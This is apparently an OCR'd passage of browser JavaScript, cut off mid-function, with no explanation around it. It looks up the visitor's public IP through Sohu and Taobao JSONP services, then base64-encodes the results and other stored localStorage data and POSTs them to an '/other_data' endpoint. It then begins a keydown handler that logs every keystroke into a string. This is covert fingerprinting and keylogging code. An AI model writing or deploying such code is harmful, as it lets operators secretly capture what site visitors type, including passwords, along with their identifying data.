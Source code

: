 ```plain
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip 获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip 获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;

      case 9:
        keyName = "[制表]";
        break;

      case 13:
        keyName = "[回车]";
        break;
      //case 16:keyName = "[shift]"; break;
```